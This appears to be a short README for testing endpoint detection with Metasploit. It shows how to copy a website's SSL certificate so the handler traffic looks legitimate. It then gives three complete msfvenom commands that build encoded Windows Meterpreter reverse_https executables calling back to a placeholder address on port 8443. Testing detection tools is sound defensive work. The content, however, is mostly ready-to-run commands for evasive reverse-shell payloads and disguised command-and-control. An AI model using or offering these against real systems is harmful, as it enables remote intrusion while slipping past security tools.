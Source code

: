 # Inital Setup for MSF Testing

Change the default metasploit SSL cert:

```
sudo msfconsole

use auxiliary/gather/impersonate_ssl 
set RHOST example.com

run
```

Example output:
![output](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/edr1.png "Command Output")

Take the .pem file and use for setting the SSL cert in the msf.rc file.

Change:
```
set HANDLERSSLCERT /root/attack.crt
```

To your new cert you collected:
```
set HANDLERSSLCERT /root/.msf4/loot/20210526091350_default_93.184.216.34_93.184.216.34_pe_809138.pem
```

## Payload Generation

Create 3 msfvenom payloads

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 1 lport=8443 lhost=1.2.3.4 -b "\x00" -f exe -o test.exe
```

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 20 lport=8443 lhost=1.2.3.4 -b "\x00" -f exe -o test2.exe
```

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 30 lport=8443 lhost=1.2.3.4 -b "\x00\xff" -f exe -o test3.exe
```

